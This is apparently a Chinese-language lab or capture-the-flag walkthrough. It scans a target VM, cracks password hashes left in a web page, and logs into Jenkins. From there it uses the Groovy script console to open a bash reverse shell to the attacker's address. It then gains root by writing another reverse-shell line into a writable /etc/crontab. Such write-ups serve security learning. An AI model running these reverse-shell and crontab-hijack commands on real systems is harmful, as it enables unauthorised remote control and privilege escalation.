[TOC]

# 信息收集

```
arp-scan -l
nmap -p- --min-rate 10000 192.168.174.196 | awk -F ' ' '{print$1}' | awk -F '/' '{print$1}' | tr '\n' ','
```

得到端口号22,80,3306,8080

分别进行TCP详细扫描，漏洞扫描和UDP扫描

## TCP详细扫描



- 3306是mysql

- 8080有Jetty 9.4.z-SNAPSHOT（这个版本在漏洞库中找到了一个信息泄露漏洞，但最终没用上）

  ------

  

Jetty是Web 容器（Servlet 容器 + HTTP 服务器），用于处理 http 请求、运行 java web 应用，Java 写的 Servlet 容器 + HTTP 服务器

- 监听端口，接收浏览器 / 客户端的 HTTP 请求；

- 解析 HTTP 协议，转发请求给里面的 Java Web 程序（war 包、servlet）；

- 支持 Servlet、Jakarta EE、HTTP/1.1、HTTP/2、HTTP/3、WebSocket；

- **最大特点：模块化、轻量、支持嵌入式**。 嵌入式：直接在 Java 代码里`new Server(8080)`启动，不用单独安装、不用配置服务。

  ------

  ## 漏洞扫描



- 80端口感觉有很多误报，先不管
- 8080端口枚举了一个robots.txt目录

## UDP扫描



没信息

# 端口分析

先看80端口和8080端口的默认页面

**80端口**





源代码也没什么信息

**8080端口**





一个登陆页面，也注意到了这个使用了Jenkins,版本号是2.113

------

**Jenkins**

**CI/CD 持续集成持续交付平台，本身是一个 Java Web 应用（war 包）**

自动化流水线：代码提交后自动做一系列重复工作 标准流水线： Git 提交代码 → Jenkins 触发 → 拉代码 → 编译（Maven/Gradle）→ 单元测试 → 代码安全扫描 → 打包 / 构建 Docker 镜像 → 部署到测试 / 生产 → 推送通知（钉钉 / 邮件）

------

不过在漏洞库没有相关版本信息，查看其robots.txt



提示了“build”这个链接

## 枚举目录

```
gobuster dir -u "http://192.168.174.196" -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt -x php,zip,txt,html
```

只枚举出index.html和access.html(8080端口不能正常枚举，不过也用不到)

查看access.html内容



发现了三个用户名以及其对应的密码hash，解密一下得到



经过尝试发现eder用户可以用于登录8080端口的表单

登录后进行以下步骤







进入一个类似控制台的地方，右边的提示了用的是groovy脚本，在网上找一下相关的



这是一些例子

- 在本地开启监听，运行

  ```
  def cmd = ['bash','-c','bash -i >& /dev/tcp/192.168.174.128/4444 0>&1']
  def proc = cmd.execute()
  proc.waitFor()
  ```

  



成功连接

# 提权

完善一下tty功能后

```
find / -perm -u=s -type f 2>/dev/null
```

发现/etc/crontab有suid权限



同时发现这个文件我们有编辑权限



写入反弹shell

```
/bin/bash -i >& /dev/tcp/192.168.174.128/1234 0>&1
```

等待一段时间



成功提权